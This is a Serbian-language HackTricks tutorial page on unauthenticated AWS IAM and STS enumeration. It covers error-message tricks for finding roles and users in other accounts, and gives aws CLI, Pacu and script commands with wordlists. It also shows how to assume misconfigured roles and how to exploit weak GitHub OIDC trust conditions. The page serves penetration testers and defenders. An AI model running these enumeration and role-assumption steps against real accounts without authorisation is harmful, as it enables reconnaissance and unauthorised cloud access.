 # AWS - IAM i STS Neautentifikovano Enumerisanje

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Enumeracija Uloga i Korisničkih imena u nalogu

### ~~Bruteforce pretpostavljene uloge~~

{% hint style="danger" %}
**Ova tehnika više ne funkcioniše** jer bez obzira da li uloga postoji ili ne, uvek dobijate sledeću grešku:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Možete **testirati ovo pokretanjem**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Pokušaj **pretpostavljanja uloge bez neophodnih dozvola** izaziva AWS poruku o grešci. Na primer, ako nemate dozvole, AWS može vratiti:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Ova poruka potvrđuje postojanje uloge, ali ukazuje da njen politika pretpostavljanja uloge ne dozvoljava vaše pretpostavljanje. Nasuprot tome, pokušaj pretpostavljanja nepostojeće uloge dovodi do drugačije greške:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Zanimljivo je da se ovaj metod **razlikovanja između postojećih i nepostojećih uloga** može primeniti čak i preko različitih AWS naloga. Sa validnim AWS ID naloga i ciljnom listom reči, moguće je nabrojati uloge prisutne u nalogu bez ikakvih inherentnih ograničenja.

Možete koristiti ovaj [skript za nabrojavanje potencijalnih principala](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum) zloupotrebljavajući ovaj problem.

### Politike poverenja: Brute-Force pretraga uloga i korisnika između različitih naloga

Konfigurisanje ili ažuriranje **politike poverenja IAM uloge podrazumeva definisanje AWS resursa ili usluga koje su dozvoljene da preuzmu tu ulogu** i dobiju privremene akreditive. Ako je navedeni resurs u politici **postoji**, politika poverenja se **uspešno** čuva. Međutim, ako resurs **ne postoji**, generiše se **greška**, koja ukazuje da je pružen nevažeći princip.

{% hint style="warning" %}
Imajte na umu da u tom resursu možete navesti ulogu ili korisnika između različitih naloga:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Ovo je primer politike:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### Grafički korisnički interfejs (GUI)

To je **greška** koju ćete dobiti ako koristite **ulogu koja ne postoji**. Ako uloga **postoji**, politika će biti **sačuvana** bez ikakvih grešaka. (Greška se javlja prilikom ažuriranja, ali takođe funkcioniše prilikom kreiranja)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI (Command Line Interface)
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Možete automatizovati ovaj proces pomoću [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Ili koristeći [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* U primeru se koristi uloga `admin` koja je **uloga u vašem nalogu koju pacu koristi za impersonaciju** kako bi kreirao politike koje su mu potrebne za enumeraciju

### Privesc

U slučaju da je uloga loše konfigurisana i dozvoljava svakome da je preuzme:

![](<../../../.gitbook/assets/image (35).png>)

Napadač bi je jednostavno mogao preuzeti.

## Treća strana OIDC federacija

Zamislite da uspete da pročitate **Github Actions workflow** koji pristupa **ulogi** unutar **AWS**-a.\
Ovo poverenje može omogućiti pristup ulozi sa sledećom **politikom poverenja**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ova politika poverenja može biti ispravna, ali **nedostatak dodatnih uslova** bi trebalo da vas učini sumnjičavim.\
To je zato što prethodnu ulogu može preuzeti **BILO KO iz Github Actions**! Trebali biste navesti i druge stvari kao što su ime organizacije, ime repozitorijuma, okruženje, grana...

Još jedna potencijalna greška u konfiguraciji je **dodavanje uslova** kao što je sledeće:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Imajte na umu da je **zvezdica** (\*) pre **dvotačke** (:). Možete kreirati org kao što je **org\_name1** i **pretpostaviti ulogu** iz Github akcije.

## Reference

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)
* [https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/](https://hackingthe.cloud/aws/enumeration/enum\_iam\_user\_role/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
